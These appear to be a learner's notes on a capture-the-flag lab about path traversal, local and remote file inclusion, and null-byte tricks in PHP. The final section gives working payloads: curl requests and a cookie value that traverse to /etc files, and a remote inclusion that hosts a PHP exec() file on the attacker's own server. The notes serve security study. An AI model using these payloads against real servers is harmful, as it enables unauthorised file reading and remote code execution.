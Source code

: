 - **Essential parts of the url**
- **Path/Directort Transversal** -> vulnerability that allows an attacker to read operating system resources. The attacker manipulates the url to locate and access files or directories stored outside the root directory.
- **PHP information** -> https://www.php.net
- **Path transversal attacks** -> known as dot-dot-slash attack, take advantage of moving the directory one step up using the double dots ../
- **Local File Inclusion (LFI)**
- **NULL Byte** -> %00
- **Remote File Inclusion (RFI)** -> technique to include remote files into a vulnerable application. It has one requirement: `allow_url_fopen` must be on.

![[file1.png]]
![[file2.png]]
![[file3.png]]
![[file4.png]]
![[file5.png]]
![[file6.png]]
![[file7.png]]
![[file8.png]]
![[file9.png]]
![[file10.png]]
![[file11.png]]
![[file12.png]]
![[file13.png]]
![[file14.png]]
![[file15.png]]
![[file16.png]]
![[file17.png]]
![[file18.png]]

CHALLENGES
- To get the first flag, we can put this in terminal: `curl -X POST https://MACHINEIP/challenges/chall1.php -d 'method=GET&file=/etc/flag1'`
- To get the second flag, we open burpsuite and put on cookie `../../../../etc/flag2%00`
- To get the third flag, we put this in terminal: `curl -X POST https://MACHINEIP/challenges/chall3.php -d 'method=POST&file=../../../../etc/flag3%00'`
- To get the hostname (Remote File Inclusion), whe set up our remote server writing `sudo python3 -m http.server` and then we create a file txt with the content: `<?php print exec('hostname'); ?>` and we intruduce on the url `http://MACHINEIP/playground.php?file=http://myIP:PORT/file.txt` and the hostname is shown.